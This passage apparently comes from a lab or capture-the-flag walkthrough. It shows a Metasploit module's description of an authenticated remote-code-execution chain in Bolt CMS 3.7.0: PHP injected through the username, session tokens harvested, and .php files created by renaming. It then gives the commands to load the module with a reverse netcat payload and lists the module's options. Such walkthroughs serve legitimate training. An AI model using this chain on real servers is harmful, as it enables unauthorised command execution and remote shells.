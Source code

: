 ```bash
Payload information:

Description:
  This module exploits multiple vulnerabilities in Bolt CMS version 3.7.0
  and 3.6.* in order to execute arbitrary commands as the user running Bolt.

  This module first takes advantage of a vulnerability that allows an
  authenticated user to change the username in /bolt/profile to a PHP
  `system($_GET[""])` variable. Next, the module obtains a list of tokens
  from `/async/browse/cache/.sessions` and uses these to create files with
  the blacklisted `.php` extention via HTTP POST requests to
  `/async/folder/rename`. For each created file, the module checks the HTTP
  response for evidence that the file can be used to execute arbitrary
  commands via the created PHP $_GET variable. If the response is negative,
  the file is deleted, otherwise the payload is executed via an HTTP
  get request in this format: `/files/<rogue_PHP_file>?<$_GET_var>=<payload>`

  Valid credentials for a Bolt CMS user are required. This module has been
  successfully tested against Bolt CMS 3.7.0 running on CentOS 7.

References:
  https://www.exploit-db.com/exploits/48296
  https://github.com/bolt/bolt/releases/tag/3.7.1

CVE not available for the following reason:
  ["0day"]


View the full module info with the info -d command.
```

# Vulnerability Exploitation
> Vulnerability Exploitation Using Metasploit
14. `use {EXPLOIT PATH}` to load in the exploit that we found for us to use
15. `show options` to display this module's required options and current settings onto our terminal 
```bash
msf6 > use exploit/unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) >
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the server
   PASSWORD                                    yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                8000                   yes       The target port (TCP)
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME                                    yes       Username to authenticate with
```
